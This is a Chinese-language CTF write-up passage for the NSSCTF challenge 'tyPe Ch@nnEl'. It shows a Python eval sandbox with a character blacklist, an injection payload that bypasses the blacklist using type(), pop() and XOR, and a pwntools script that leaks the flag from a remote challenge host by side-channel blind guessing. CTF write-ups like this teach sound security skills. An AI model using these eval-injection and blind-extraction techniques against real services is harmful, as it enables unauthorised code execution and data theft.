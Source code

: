 还是随机数

#### 6. tyPe Ch@nnEl

远程代码

```python
MY_FLAG = "NSSCTF{fake_flag_in_local_but_really_in_The_remote}"
BLACED_KLIST = '"%&\',-/_:;@\\`{|}~*<=>[] \t\n\r'

def my_safe_check(n):
    return all(ord(m) < 0x7f for m in n) and all(m not in n for m in BLACED_KLIST)

def my_safe_eval(m, my_func):
    if not my_safe_check(m):
        print("Hacker!!!!")
    else:
        try:
            print(eval(f"{my_func.__name__}({m})", {"__builtins__": {my_func.__name__: my_func}, "flag": MY_FLAG}))
        except:
            print("Try again!")

if __name__ == "__main__":
    my_safe_eval(input("Payload:"), type)
```

> ```py
> ((1)if(type(flag.split())(flag.encode()).pop({pos})^{val})else(True))
> ```

> ```python
> print(type(flag.split()))  # <class 'list'>
> type(flag.split())(flag.encode())  => list(flag.encode)
> ```

把flag转化为`bytes`，然后再变成`list`，这样`list`的每一位就是ASCII码值

用list的pop方法获取对应位置的元素（因为中括号被ban了），再和我们的值异或（等号被ban了，用异或），若相等则进入else 返回True，最后经过type得到bool，否则返回1，经过type得到int

侧信道盲注

```python
from pwn import *
from tqdm import trange

class Gao:
    def __init__(self):
        self.known = ''
    
    def init(self):
        self.conn = remote('1.14.71.254', 28563)
    
    def gao(self):
        payload = '((1)if(type(flag.split())(flag.encode()).pop({pos})^{val})else(True))'
        i = len(self.known)
        while True:
            for j in trange(32, 128):
                cur_payload = payload.format(pos=i, val=j)
                self.init()
                self.conn.sendlineafter('Payload:', cur_payload)
                s = self.conn.recvline()
                self.conn.close()
                if (b'Try' in s):
                    return
                elif (b'bool' in s):
                    self.known += chr(j)
```
